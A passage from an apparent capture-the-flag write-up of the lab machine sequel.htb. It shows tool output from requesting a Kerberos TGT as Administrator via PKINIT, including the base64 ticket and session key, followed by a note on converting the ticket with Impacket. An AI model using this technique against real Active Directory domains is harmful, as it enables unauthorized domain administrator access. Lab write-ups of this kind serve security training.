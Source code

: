 ```
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName           :  krbtgt/sequel.htb
  ServiceRealm          :  SEQUEL.HTB
  UserName              :  Administrator
  UserRealm             :  SEQUEL.HTB
  StartTime             :  6/16/2023 10:36:01 AM
  EndTime               :  6/16/2023 8:36:01 PM
  RenewTill             :  6/23/2023 10:36:01 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable
  KeyType               :  rc4_hmac
  Base64(key)           :  wWADPC33mZiwddA+8rHNYg==

*Evil-WinRM* PS C:\programdata>
```

Success! We now have a TGT as `Administrator`. This is of course in `kirbi` format (and base64 encoded) so if we want to use it from our Kali machine, we have to convert it to `ccache`. We can use Impacket [ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py) to do so.
